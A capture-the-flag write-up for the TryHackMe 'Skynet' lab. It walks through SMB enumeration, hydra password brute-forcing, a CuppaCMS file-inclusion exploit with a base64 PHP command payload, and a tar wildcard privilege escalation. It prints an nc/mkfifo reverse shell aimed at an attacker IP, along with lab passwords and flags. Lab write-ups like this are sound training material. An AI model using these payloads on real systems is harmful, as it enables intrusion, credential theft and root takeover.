# Skynet

## Task 1

### 1.1

***What is Miles password for his emails?***

The first thing to do is to port scan the machine to find all the services and open ports running on the machine:

```bash
sudo nmap -sS -sV 10.10.97.28 -oN nmap.out
```

Here are the open ports and services:



The server has an SSH server, a HTTP server, two email servers (POP3 and IMAP), and an SMB server.

The next step is to see the website on port 80. This displays a search engine. To see what the webpage does, I will use Burp Suite to capture the HTTP requests.

After inputting 'Test', the POST request sends a value of 'Skynet+Search', which means that I need to use Burp Suite to test some values for the 'submit' parameter. 





After guessing some values, none appear to load a new page, so I will then enumerate Samba as suggested by the hint.

```bash
enum4linux -a 10.10.97.28 | tee smb_enum.out
```

The results show a user named `milesdyson` with his own personal share. There is also an anonymous share, which can be logged into as an anonymous user



```bash
smbclient //10.10.97.28/anonymous -U anonymous
```

After successfully logging into the anonymous share, using `ls` will show one file and one directory: `attention.txt` and `logs`

Opening logs gives the following text:

```txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

This could mean that the passwords may have been logged in the `logs` folder

After collecting the log files in the directory, `log1.txt` contains a list of strings, which are most likely passwords. This gives us a wordlist to use to brute force into the different servers using `milesdyson` as a user

Firstly POP3: `hydra -l milesdyson -P logs/log1.txt -s 110 10.10.97.28 pop3`

This doesn't work using plaintext authentication

Next IMAP: `hydra -l milesdyson -P logs/log1.txt -s 143 10.10.97.28 imap`

No success

Finally SSH: `hydra -l milesdyson -P logs/log1.txt 10.10.97.28 ssh`

Also no success

Since none of the services can be logged into yet, I will perform directory enumeration with gobuster on the HTTP server

```bash
gobuster dir -u 10.10.97.28 -w ~/wordlists/dirbuster/directory-list-2.3-medium.txt -o gb_root.ouadmin
```

The result gives us multiple subdomains



The most interesting ones are `/admin`, `/ai`, `/config`, and `/squirrelmail`. The first three are forbidden due to access permissions, but `/squirrelmail` shows a login page for a mail server. The next step is to brute force the password for the potential user `milesdyson`.

The first step is to capture the POST request for the login page in Burp Suite.

The POST request is `/squirrelmail/src/redirect.php`

The body is `login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1`

The 'login failed' message is `Unknown user or password incorrect.`

This will allow us to create the command for hydra:

```bash
hydra -l milesdyson -P logs/log1.txt -s 80 10.10.97.28 http-post-form '/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect.' -o hydra_http.out
```

The password comes up as `cyborg007haloterminator`



Logging in with the new found credentials gives us access to the mailbox of `milesdyson`

### 1.2

After looking at the different emails, the first email gives the SMB password for `milesdyson`, which is
```
)s{A&2Z=F^n_E.B`
```

The second email gives a string of binary values, which may have a hidden message.



Using an online binary to text converter, the result is `balls have zero to me to me to me to me to me to me to me to me to`

Next is to login to SMB as `milesdyson`

```bash
smbclient //10.10.97.28/milesdyson -U milesdyson
```

After logging in, there are some PDF files about machine learning, and a `notes` directory, which contains markdowns of notes. A peculiar file named `important.txt` is within the `notes` file, which reads: 

```
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

The `/45kra24zxs28v3yd` directory is a hidden directory which leads to this webpage


### 1.3

Inspecting the website's source code gives no secret information, so the next step would be to enumerate any subdirectories for this directory with gobuster

```bash
gobuster dir -u 10.10.97.28/45kra24zxs28v3yd/ -w ~/wordlists/dirbuster/directory-list-2.3-medium.txt -o gb_secret_dir.out
```

This reveals a `/administator` subdomain, which opens a login page



The CMS is 'CuppaCMS', and since there are no credentials available to use, the next step is to find a vulnerability of CuppaCMS to exploit

After searching 'cuppa' on the Exploit DB, a CVE appears, which uses local/remote file inclusion on the `alertConfigField.php` page

### 1.4

To execute the remote file inclusion attacks, I will use the following URL: `http://10.10.97.28/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=[payload]`

To start, I will try to print the `/etc/passwd` file: `http://10.10.97.28/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`



This shows that there is a `milesdyson` user on the machine

To run a command on the machine, I will use the following payload:

```
http://10.10.97.28/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+
```

This will allow us to execute a command by appending `&cmd=<command>` at the end of it

Running `http://10.10.97.28/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=whoami` gives `www-data` as a result, meaning that remote code execution is possible in the machine

Using the `ls /home/milesdyson` command shows a `user.txt` file



The `user.txt` file reads: `7ce5c2109a40f958099283600a9ae807`

### 1.5

Inspecting the `milesdyson` home directory shows a `backups` folder, which contains a shell script named `backup.sh` that is owned by root. It is also readable and executable by everyone. This could be used to gain access to the server as root

This is the contents of the shell script:

`#!/bin/bash cd /var/www/html tar cf /home/milesdyson/backups/backup.tgz * `

This script will make a tar backup of the entire `/var/www/html` directory and save it to `home/milesdyson/backups/backup.tgz`

Next step is to gain access to the machine. For this I will use the PentestMonkey PHP reverse shell script.

Next is to set up a netcat listener: `nc -lvnp 4321`

I will also setup a HTTP server to host the PHP shell script:
`python3 -m http.server`

Then to execute the payload: 

```
http://10.10.97.28/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.86.182:8000/shell.php
```



Now that a shell has been opened, next is to check different files. One file is the `/etc/crontab` file, which shows that the `backup.sh` file executes every minute

After looking for ways to exploit the problem, I ultimately looked at the write up from TryHackMe, and the vulnberability lies in the wildcards and checkpoint actions for a directory

Here is the payload that can be used to gain root access:

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.86.182 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

Firstly, I will go to the `/var/www/html` folder, and then I will execute the payloads

Then after waiting for a minute, I will have a new shell opened on my other netcat listener, which is logged in as root



Getting the content of `root.txt` gives the output:

`3f0372db24753accc7179a282cd6a949`